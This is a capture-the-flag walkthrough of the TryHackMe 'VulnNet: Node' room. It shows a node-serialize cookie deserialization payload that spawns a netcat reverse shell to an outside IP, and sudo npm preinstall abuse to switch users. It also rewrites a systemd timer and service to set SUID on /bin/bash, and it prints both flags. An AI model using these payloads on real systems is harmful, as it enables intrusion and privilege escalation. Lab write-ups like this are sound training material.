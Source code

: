 ```yaml
---
title: Vulnet:Node
layout: post
author: Bit Criminals Team
date: 2021-05-06 17:02:00 +0530
type: Pentesting
difficulty: Easy
prompt: https://tryhackme.com/room/vulnnetnode
---
```


So we run a full Nmap scan to see which ports are open,and we see that only one port is open.

```py
PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!
```
And since a tcp port is open we run our routine gobuster scan , which shows us that these directories are present.

![](/images/MaskdMafia/node1.png)

Meanwhile,opening the website on our browser we are greeted with this page.

![](/images/MaskdMafia/node2.png)

And inspecting the page we see that it has a base64 encoded cookie , which , on decrypting gives this:

```py
{"username":"Guest","isGuest":true,"encoding": "utf-8"}
```
On changing the value of Username from "Guest" to "Admin" shows us "Welcome Admin" on the page.
However,changing the cookie value to anything else shows us errors

![](/images/MaskdMafia/node-3.png)

So we decide to put a reverse shell in the Username field, which gives us access to the machine .

```py
{"username":"_$$ND_FUNC$$_require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 
2>&1|nc 10.9.8.34 1337 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) })",
"isGuest":true,"encoding": "utf-8"}
```
![](/images/MaskdMafia/node-4.png)

So we try to see what commands we are allowed to execute as www

![](/images/MaskdMafia/node5.png)

Searching for an npm exploit on GTFOBins we get one result so lets try it out !

So we run these two commands on the machine:

```py
echo '{"scripts": {"preinstall": "/bin/sh"}}' > package.json
sudo -u serv-manage /usr/bin/npm -C ./ --unsafe-perm i
```
Lets see if it worked.

![](/images/MaskdMafia/node6.png)

Yay! We are now serv-manage.We now go to /home/serv-manage to get our user.txt.

User-Flag: THM{064640a2f880ce9ed7a54886f1bde821}

Next we need to get root privileges.So we run sudo -l to see which commands the user serv-manage is allowed to execute.

![](/images/MaskdMafia/node7.png)

So we go to the directory which has vulnnet-auto.timer and write the following to the files.

```py
echo '[Unit]
Description=Run VulnNet utilities every 30 min
[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/1
Unit=vulnnet-job.service
[Install]
WantedBy=basic.target' > vulnnet-auto.timer
```

```py
echo '[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/bash -c "chmod +s /bin/bash"

[Install]
WantedBy=multi-user.target' > vulnnet-job.service
```
Waited sometime and we got the root priveleges !
Now we go to the root directory and see the contents of root.txt.

![](/images/MaskdMafia/node-8.png)

Root Flag: THM{abea728f211b105a608a720a37adabf9}




